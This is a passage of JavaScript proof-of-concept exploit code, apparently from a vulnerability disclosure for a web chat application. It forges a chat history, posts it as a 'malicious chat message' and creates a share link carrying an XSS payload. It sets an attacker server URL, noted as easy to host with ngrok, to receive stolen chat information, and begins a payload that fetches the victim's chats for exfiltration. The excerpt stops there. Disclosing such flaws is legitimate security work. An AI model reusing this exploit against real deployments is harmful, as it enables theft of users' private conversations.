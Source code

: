 ```js
            history: {
                messages: {
                    'd3c6cf27-832b-4525-a5b9-f522c507e1fa': {
                        id: 'd3c6cf27-832b-4525-a5b9-f522c507e1fa',
                        parentId: null,
                        childrenIds: ['4919b533-1a01-4aeb-8b0b-a7341c74356d'],
                        role: 'user',
                        content: 'test',
                        timestamp: 1720934988,
                        models: ['gpt-4o']
                    },
                    '4919b533-1a01-4aeb-8b0b-a7341c74356d': {
                        parentId: 'd3c6cf27-832b-4525-a5b9-f522c507e1fa',
                        id: '4919b533-1a01-4aeb-8b0b-a7341c74356d',
                        childrenIds: [],
                        role: 'assistant',
                        content: 'It looks like you might be running a test. How can I assist you today?',
                        model: 'gpt-4o',
                        modelName: 'gpt-4o',
                        userContext: null,
                        timestamp: 1720934988,
                        lastSentence: 'It looks like you might be running a test.',
                        done: true,
                        info
                    }
                },
                currentId: '4919b533-1a01-4aeb-8b0b-a7341c74356d'
            },
            params: {}
        }
    };

    // send malicious chat message
    await fetch(`http://localhost:3000/api/v1/chats/${chat_id}`, {
        method: 'POST',
        credentials: 'include',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(payload)
    }).then((res) => res.json());

    // generate share link including XSS payload
    const { id: share_id } = await fetch(`http://localhost:3000/api/v1/chats/${chat_id}/share`, {
        method: 'POST',
        credentials: 'include'
    }).then((res) => res.json());

    // CHANGEME
    // URL of the server owned by the attacker.
    // Stolen chat information is sent to this URL.
    // The attacker can obtain the stolen information by checking the access logs of this server.
    // A server that fulfills this role can be easily set up using, for example, ngrok.
    const attackerServer = 'http://localhost:1337?CHANGEME';

    const jsPayload = `
(async () => {
    const chats = await fetch('http://localhost:3000/api/v1/chats', {
        credentials: 'include'
    }).then((res) => res.json());

    const attackerServer = '__ATTACKER_SERVER__';

    for (const chat of chats) {
```